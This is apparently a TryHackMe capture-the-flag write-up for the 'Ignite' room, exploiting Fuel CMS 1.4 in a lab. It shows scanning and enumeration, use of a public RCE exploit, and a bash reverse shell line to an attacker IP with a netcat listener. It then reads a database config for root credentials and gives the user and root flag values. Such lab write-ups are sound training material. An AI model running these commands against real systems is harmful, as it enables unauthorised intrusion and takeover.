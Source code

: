 # [Ignite](https://tryhackme.com/room/ignite)

> A new start-up has a few issues with their web server

## Scanning

Scan the target with nmap

```
nmap -A -T4 10.10.138.185
```

![image](https://user-images.githubusercontent.com/90561566/188138041-0e800d6a-7fc8-41a8-8bb4-e9535589f31d.png)

Hmm, found only 1 open port 80 (http)

## HTTP

Go to the web page

![image](https://user-images.githubusercontent.com/90561566/188138642-85ed4d57-3ec3-4467-bed3-dde8f7355691.png)

It's default page of fuel cms 1.4

## Enumeration

Gobuster to discover hidden directory

```
gobuster dir -u http://10.10.138.185 -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/188139192-d3977108-ff1f-43e1-b05b-5f6b4d0a6b41.png)

I connected to /0/ and /home/ directory and maybe in vain

![image](https://user-images.githubusercontent.com/90561566/188139966-5029d435-ba8f-4ceb-ba6d-a7a5f464cdbb.png)

I had logggd in and see nothing too

## Exploitation

I search exploit for fuelcms

```
searchsploit fuelcms 1.4
```

![image](https://user-images.githubusercontent.com/90561566/188140509-e7f1d285-a42e-4e56-bb53-75ce63f1e2af.png)

copy exploit

```
searchsploit -m 47138.py
vi 47138.py
```

change line 14 to target ip

![image](https://user-images.githubusercontent.com/90561566/188140922-cc1950b3-b5cc-46e5-a836-27ab5cd654f4.png)

```
chmod +x 47138.py
python 47138.py
```

![image](https://user-images.githubusercontent.com/90561566/188256466-ef67f34d-b02c-421e-b8f1-f15a6393e4a9.png)

now we open a reverse shell to control easily

```
vi rev.sh
bash -i >& /dev/tcp/<your_ip>/4444 0>&1
```

open 2 tab

```
python3 -m http.server 80 # http server to download file
and
nc -vlnp 4444 # netcat listener on port 4444
```

next

![image](https://user-images.githubusercontent.com/90561566/188258559-b452576b-a916-4c41-b363-ba8633f969d4.png)

![image](https://user-images.githubusercontent.com/90561566/188258613-6d26529d-c131-401b-b075-8e214dc59ead.png)

![image](https://user-images.githubusercontent.com/90561566/188258643-545ca4a4-bc4e-48ff-b7dd-5259cef13e47.png)

okay, we got a shell

![image](https://user-images.githubusercontent.com/90561566/188258669-b25aaa28-44ff-4efe-b405-4077b1fa26c4.png)

search flag on /home

![image](https://user-images.githubusercontent.com/90561566/188258710-0b59be70-6923-4025-969f-8b4e9fc3e659.png)

| Flag | User flag |
| --- | --- |
| User.txt | 6470e394cbf6dab6a91682cc8585059b |

## Privilege Escalation

I tried `sudo -l -l` but it didn't work

![image](https://user-images.githubusercontent.com/90561566/188258803-f8a5356b-c65f-4b64-aa0e-cf56bc438f19.png)

during reconnaissance i noticed some instructions related to Database configuration on the webpage

![image](https://user-images.githubusercontent.com/90561566/188258939-44efe6c8-f5e6-4b8f-a8a6-347bc6c00804.png)

```
cat fuel/application/config/database.php
```

![image](https://user-images.githubusercontent.com/90561566/188258995-6329d359-e685-4b0c-9cf1-042a6be1919c.png)

there is it

![image](https://user-images.githubusercontent.com/90561566/188259024-19eed0e6-7dcb-43ba-9703-c8d01e3c6ec6.png)

user: root, pass: mememe

![image](https://user-images.githubusercontent.com/90561566/188259227-9b187eef-6ca7-4700-bf76-f0840007dca6.png)

i got an error, after gg search, here is the solution

```
python -c 'import pty; pty.spawn("/bin/sh")'

echo os.system('/bin/bash')

/bin/sh -i
```

![image](https://user-images.githubusercontent.com/90561566/188259287-2f59492d-31f2-440b-96a1-44d7c0665678.png)

here you are

![image](https://user-images.githubusercontent.com/90561566/188259334-cb02362c-d167-471a-848e-8a9cb86ed442.png)

| Flag | User flag |
| --- | --- |
| root.txt | b9bbcb33e11b80be759c4e844862482d |
